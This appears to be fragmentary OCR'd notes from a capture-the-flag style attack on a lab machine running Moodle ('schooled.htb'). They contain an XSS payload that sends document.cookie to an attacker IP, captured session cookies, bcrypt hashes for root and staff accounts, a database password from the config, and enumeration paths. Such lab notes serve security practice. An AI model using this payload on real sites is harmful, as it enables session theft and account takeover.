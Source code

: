 ```python

}

COOKIES : 
Sid - eaqf9598r31tvpr6cq8362i1u8
Manuel Phillips - vvpj5s0tjh14ju1vi5p2l7ef18

sid
Abc12345678@

<script>location="http://10.10.14.115:7676?"+document.cookie</script>

http://moodle.schooled.htb/moodle/user/edit.php?id=23&course=1

$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2     -    root@localhost
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW     -    jamie@staff.schooled.htb 

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (

/usr/local/share/doc/sudo
/usr/local/bin/sudo
/usr/tests
/usr/local/man/mandoc.db

/usr/local/bin/sqlite3
/usr/include/private/sqlite3
/usr/include/private/sqlite3
/usr/local/bin/mysql
/usr/local/bin/mysqlxtest
/usr/local/bin/mysqltest

/var/run/sudo
/var/db/sudo
/usr/local/bin/sudo
```